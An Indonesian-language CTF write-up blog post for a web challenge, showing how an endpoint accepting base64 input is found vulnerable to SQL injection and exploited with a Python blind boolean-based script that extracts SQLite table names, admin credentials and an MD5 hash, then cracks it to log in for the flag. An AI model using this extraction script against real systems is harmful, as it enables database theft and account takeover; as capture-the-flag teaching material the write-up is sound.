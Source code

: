 ```yaml
---
author: cacadosman
date: 2018-07-24 14:30:19+00:00
draft: false
title: WriteUp SQLi BTP - Lorem Ipsum (300)
type: post
url: /writeup-sqli-btp-lorem-ipsum-300/
comments: true
categories:
- CTF
- Cyber Security
- Tutorial
---
```


Terdapat sebuah web yang sekilas terlihat biasa saja, namun saat kita memcoba mengakses hyperlink, ternyata menggunakan ajax. Sampai disini kita curiga bahwa terdapat vuln SQLi pada url api yang menggunakan ajax, sehingga dengan menggunakan HTTP Trace kita dapat mengetahui url api nya.

![](/wp-content/2018/07/btpsqli.png)


Yaitu pada **data.php **dan kita bisa memasukkan inputan pada parameter id dengan metode post, namun inputan harus dalam bentuk base64. Lalu kita coba kirimkan sebuah payload ke url tsb:

![](/wp-content/2018/07/btpsqli2.png)


Ternyata saat kita inputkan “1 or 1 -- -” terdapat sebuah results yang menandakan bahwa vuln terhadap SQL Injection.
Setelah kita analisa ternyata menggunakan SQLite dan query union ternyata difilter juga sehingga kita terpaksa menggunakan teknik Blind Boolean Based.

kita perlu mencari nama tabel, kolom, dan value nya dengan menggunakan script berikut:


```python
from requests import *
import base64

url = "http://35.187.236.126:8013/data.php"
charlist = "abcdefghijklmnopqrstuvwxyz1234567890 _,)(:}{\n"
temp = []
while(True):
   temp += ["a"]
   for i in range(len(charlist)):
       temp[-1] = charlist[i]
       res = "".join(temp)
       #payload = "(select CASE WHEN (SELECT group_concat(tbl_name,':') FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') like '" + res + "%' THEN 1 ELSE 0 END)"
       #payload = "(select CASE WHEN (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%') like '" + res + "%' THEN 1 ELSE 0 END)"
       payload = "(select CASE WHEN (select group_concat(admin_id) from n1mbusadmin) like '" + res + "%' THEN 1 ELSE 0 END)"
       p64 = base64.b64encode(payload)
       r = post(url, data={"id":p64})
       if "Lorem Ipsum" in r.text:
           print res
           break
       else:
           print res
```



Dengan menggunakan script diatas kita bisa mengetahui nama tabel, kolom, dan value nya. Sehingga kita mendapatkan hasil:


    Tabel: config, n1mbusadmin, news
    Kolom: 
    - config : admin_url
    - n1mbusadmin : op, admin_id, admin_pass
    - news : news_id, content
    Value:
    - admin_url : 1n1admbr0
    - admin_id : backupuser
    - admin_pass : a5b6e34b25f4722b811d371e957aea29


Karena admin_pass masih berupa md5hash sehingga kita perlu meng-unhash pada website ternama seperti hashki*ller sehingga kita mendapatkan admin_pass sesungguhnya yaitu:


<blockquote>linkinpark</blockquote>


Oke, saatnya mengeksekusi. kita mendapatkan admin_url, sehingga kita bisa mencoba untuk mengakses url tsb:


<blockquote>http://35.187.236.126:8013/1n1admbr0/</blockquote>


![](/wp-content/2018/07/btpsqli3.png)


Maka muncul login form dan langsung saja kita masukkan id dan passwordnya dan VOILA kita mendapatkan sebuah FLAG

**FLAG: B2P{af39e6e718f3fb8f2de9ae9e6464b150}**
